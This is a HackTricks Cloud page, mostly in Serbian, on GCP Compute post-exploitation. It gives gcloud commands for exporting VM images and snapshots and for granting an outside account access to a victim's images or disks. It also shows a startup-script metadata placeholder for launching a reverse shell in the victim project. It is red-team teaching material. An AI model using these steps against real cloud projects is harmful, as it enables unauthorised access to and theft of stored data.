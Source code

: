 # GCP - Compute Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Za više informacija o Compute i VPC (Mreženje) proverite:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Izvoz i inspekcija slika lokalno

Ovo bi omogućilo napadaču da **pristupi podacima sadržanim unutar već postojećih slika** ili **napravi nove slike pokrenutih VM-ova** i pristupi njihovim podacima bez pristupa pokrenutom VM-u.

Moguće je izvesti sliku VM-a u bucket, a zatim je preuzeti i montirati lokalno pomoću komande:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Pre izvođenja ove akcije, napadač može zahtevati privilegije nad skladišnim rezervoarom i sigurno **privilegije nad cloudbuild** jer je to **usluga** koja će biti zatražena da izvrši izvoz.\
Pored toga, da bi ovo funkcionisalo, codebuild SA i compute SA trebaju privilegovane dozvole.\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` treba:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

A SA `<project-id>-compute@developer.gserviceaccount.com` treba:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Izvoz i inspekcija snimaka i diskova lokalno

Nije moguće direktno izvesti snimke i diskove, ali je moguće **transformisati snimak u disk, disk u sliku** i prateći **prethodni odeljak**, izvesti tu sliku da bi se inspektovala lokalno.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspekcija slike kreiranjem VM-a

Sa ciljem pristupa **podacima pohranjenim u slici** ili unutar **aktivnog VM-a** odakle je napadač **napravio sliku,** moguće je omogućiti spoljašnjem nalogu pristup slici:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
и онда креирајте нови ВМ из тога:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Ako niste mogli da date pristup svom spoljašnjem nalogu preko slike, mogli biste da pokrenete VM koristeći tu sliku u projektu žrtve i **naterate metapodatke da izvrše reverznu ljusku** za pristup slici dodajući parametar:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Sa ciljem pristupa **podacima smeštenim na disku ili snimku, možete transformisati snimak u disk, disk u sliku i pratiti prethodne korake.**

Ili možete **dodeliti spoljašnjem nalogu pristup** disku (ako je početna tačka snimak, dodelite pristup snimku ili kreirajte disk iz njega):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Priključite disk** na instancu:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount the disk inside the VM:

1.  **SSH u VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifikujte disk**: Kada ste unutar VM-a, identifikujte novi disk tako što ćete nabrojati disk uređaje. Obično ga možete pronaći kao `/dev/sdb`, `/dev/sdc`, itd.
3. **Formatirajte i montirajte disk** (ako je novi ili sirovi disk):
*   Kreirajte tačku montiranja:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Montirajte disk:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Ako **ne možete dati pristup spoljnim projektima** za snapshot ili disk, možda ćete morati da **izvršite ove radnje unutar instance u istom projektu kao snapshot/disk**.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
